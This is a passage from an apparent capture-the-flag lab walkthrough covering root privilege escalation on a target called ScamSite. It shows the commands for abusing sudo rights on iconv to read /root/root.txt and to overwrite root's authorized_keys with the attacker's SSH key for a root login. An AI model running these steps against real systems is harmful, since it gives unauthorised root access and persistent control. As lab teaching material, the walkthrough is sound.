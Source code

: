 ```sh
sudo -l
```

![c8864dd45d7871512364352b46212ec9.png](/resources/288490472c5f46548f904a7a9509a210.png)

Now that we have confirmed we still can use `sudo` on the `iconv` binary, let's try to run the same command:

```sh
sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
```

![94077ca252a0d4d87158db2474936f17.png](/resources/559c1b3161044644a568de8f76f1968c.png)

### \[-] root\@ScamSite

To escalate to the user `root`, we can use the same `sudo` privilege to overwrite the `id_rsa` file of the root user with our own SSH key then log in as `root`.

On the attacking machine, we generate our SSH keys using the following command and configure it with a password, etc. if you'd like and save the file to a directory related to this lab (so you don't overwrite any existing SSH keys) with the filename `id_rsa`:

```sh
ssh-keygen
```

Use `cat` on `id_rsa.pub` file and copy the contents to the clipboard then modify the following command with your SSH key:

```sh
echo '<ID_RSA.PUB-GOES-HERE>' | sudo /usr/bin/iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys
```

Then on the victim machine, run the command to overwrite the root user's SSH keys with your own.

Back on the attacking machine, use the [chmod](https://linux.die.net/man/1/chmod) command on the `id_rsa` file to give it the proper permissions:

```sh
chmod 600 id_rsa
```

Then use the [ssh](https://linux.die.net/man/1/ssh) command with the `-i` flag to use the `id_rsa` file to connect:

```sh
ssh -i id_rsa root@$RHOSTS
```

![6bbe75fbae2382299787e5c342f903bb.png](/resources/c13d68cadf354245aa66ecf06a75a624.png)
